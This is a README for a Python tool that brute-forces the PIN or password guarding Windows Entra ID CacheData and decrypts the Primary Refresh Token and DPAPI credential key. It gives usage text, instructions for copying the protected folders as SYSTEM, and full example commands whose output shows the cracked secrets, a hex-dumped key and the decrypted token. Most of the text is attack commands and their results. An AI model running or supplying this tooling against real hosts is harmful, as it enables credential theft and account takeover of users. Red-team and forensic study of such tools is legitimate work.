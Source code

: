 # CacheData_decrypt

A simple Toolkit to BF and decrypt Windows EntraId CacheData.

```
usage: decrypt_cachedata.py [-h] {pin,password} ...

CacheData bruteforcer. On a live windows host, to copy the folders with all
subfolders and files: xcopy <folder> <destination> /H /E /G /C as SYSTEM. The
script will automatically iterates on each Entra ID user who has logged in on
the device. If you want to bruteforce the PIN for only one user, use the --sid
parameter.

positional arguments:
  {pin,password}  Available subparser (pin or password)
    pin           BF pin.
    password      BF password.

options:
  -h, --help      show this help message and exit
```

## Installation

Create a Python3 virtual env and install the requirements:

```
python3 -m venv ./my_venv
source ./my_venv/bin/activate
pip3 install -r requirements.txt
```

## Example

### PIN

Example to bruteforce a PIN, and decrypt the PRT + DPAPI CredKey.

Ensure to gather all required files and directories:

```
ls -ld CacheData secrets/Ngc/ PIN.txt secrets/system secrets/security secrets/Crypto/Keys/ secrets/masterkey/
-rw-r--r-- 1 user user    14036 Feb 15 11:12 CacheData
-rw-r--r-- 1 user user       21 Apr 22 10:56 PIN.txt
drwx------ 2 user user     4096 Feb 15 09:59 secrets/Crypto/Keys/
drwxr-xr-x 2 user user     4096 Apr  8 21:57 secrets/masterkey/
drwx------ 3 user user     4096 Feb 15 09:58 secrets/Ngc/
-rwxr-xr-x 1 user user    40960 Apr  8 21:56 secrets/security
-rwxr-xr-x 1 user user 12734464 Apr  8 21:56 secrets/system
```

Start the script with the ``pin`` argument and all required files and directories:

```
python3 decrypt_cachedata.py pin -C CacheData -N secrets/Ngc/ -P PIN.txt \
  --system secrets/system --security secrets/security --keys secrets/Crypto/Keys/ \
  --masterkey secrets/masterkey/

[+] Found PIN: 123456
[+] Parsing CacheData file CacheData
[+] CacheData file version is 0x2
[+] CacheData expected sha256: b'e56c1ec9d053dfd0618aaed1f5bd0ebbaecf9ed11917a526d5714b7c86101423'
[+] CacheData computed sha256: e56c1ec9d053dfd0618aaed1f5bd0ebbaecf9ed11917a526d5714b7c86101423
[+] RSA decrypt encrypted AES key 1
[+] AES decrypt encrypted AES key 2
[+] AES decrypt encrypted blob of size 0x1970 (DPAPI CredKey + PRT)
[+] Dumping raw DPAPI Cred key, with GUID c0c17f7a-2b1e-43ff-a739-f698b29469b5 (0x40 bytes):
00000000: D9 00 C8 20 3A 6E FB 10  EC AD AD 3A 02 28 31 7C  ... :n.....:.(1|
00000010: E4 31 4E 09 A0 CC BE 96  1D 31 FA C5 42 AF CC 56  .1N......1..B..V
00000020: 70 32 6B 1F A3 94 F8 15  B8 63 5A B2 69 A8 ED 07  p2k......cZ.i...
00000030: D4 71 1C 96 8F 49 18 64  23 0F 30 16 6C 6D 1B CE  .q...I.d#.0.lm..
[+] Dumping decrypted PRT file:
{
    "Version": 3,
    "UserInfo": {
        "Version": 2,
        "UniqueId": "57d07212-f77d-402f-90b1-f590b8890bb4",
        "PrimarySid": "S-1-12-1-1473278482-1076885373-2432020880-3020655032",
        ....
    }
    ...
}
```

### Password

Example to bruteforce a password, and decrypt the PRT + DPAPI CredKey.

Start the script with the ``password`` argument and provide the CacheData file and password list:

```
python3 decrypt_cachedata.py password -C CacheData -P password.txt

[+] Password: 'P@ssw0rd!'
[+] Dumping raw DPAPI Cred key, with GUID c0c17f7a-2b1e-43ff-a739-f698b29469b5 (0x40 bytes):
00000000: D9 00 C8 20 3A 6E FB 10  EC AD AD 3A 02 28 31 7C  ... :n.....:.(1|
00000010: E4 31 4E 09 A0 CC BE 96  1D 31 FA C5 42 AF CC 56  .1N......1..B..V
00000020: 70 32 6B 1F A3 94 F8 15  B8 63 5A B2 69 A8 ED 07  p2k......cZ.i...
00000030: D4 71 1C 96 8F 49 18 64  23 0F 30 16 6C 6D 1B CE  .q...I.d#.0.lm..
[+] Dumping decrypted PRT file:
{
    "Version": 3,
    "UserInfo": {
        "Version": 2,
        "UniqueId": "57d07212-f77d-402f-90b1-f590b8890bb4",
        "PrimarySid": "S-1-12-1-1473278482-1076885373-2432020880-3020655032",
        ....
    }
    ...
}
```

## Credits

PRT decryption based on password (i.e not PIN) was already implemented in the
script [PRT_Utils.ps1](https://github.com/Gerenios/AADInternals/blob/49a9659b60672f08428e72148b66dfe4629562da/PRT_Utils.ps1#L858)
from [AADInternals](https://github.com/Gerenios/AADInternals) repository.

Also, our script uses several code snippets directly extracted from
[dpapilab-ng](https://github.com/tijldeneut/dpapilab-ng) repository.
